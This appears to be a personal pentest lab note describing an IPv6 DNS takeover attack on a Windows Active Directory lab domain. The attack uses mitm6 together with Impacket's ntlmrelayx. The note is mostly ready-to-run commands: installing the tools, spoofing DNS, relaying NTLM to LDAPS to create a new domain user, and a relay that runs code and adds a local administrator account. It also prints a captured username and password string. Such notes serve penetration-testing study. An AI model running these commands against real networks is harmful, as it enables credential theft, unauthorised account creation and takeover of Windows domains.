**Abuses the default IPv6 configuration in Windows networks to spoof DNS replies by acting as a malicious DNS server and redirect traffic to an attacker specified endpoint.  This tools is designed to use with ntlmrelayx **
```bash
cd /opt
```
```bash
git clone https://github.com/fox-it/mitm6.git && cd mitm6
```
```bash
sudo pip3 install .
```
```bash
sudo mitm6 -d marvel.local
```
```python
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -6 -t ldaps://$TARGET -wh fakewpad.marvel.local -l lootme > results
```
or
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py
```
Reboot windows box (either one?)
Wait awhile, look for lootme folder, was found in /home/kali
Boot into Windows 10 box with starlord creds.  Cancel running ntlmrelayx.py in Kali, analyze the results for new user creds.
`RTGVliYVpU`
`Va@A~y}lgYUKz=c`
go back Windows Server > Tools > Active Directory Users and Computers to find a new user was created.
https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
Try with code execution: (https://cheatsheet.haax.fr/windows-systems/exploitation/ipv6/)
```bash
ntlmrelayx.py -ip $TARGET -t rpc://example.local -c "net user xuser xpass /add && net localgroup Administrators xuser /add"
```
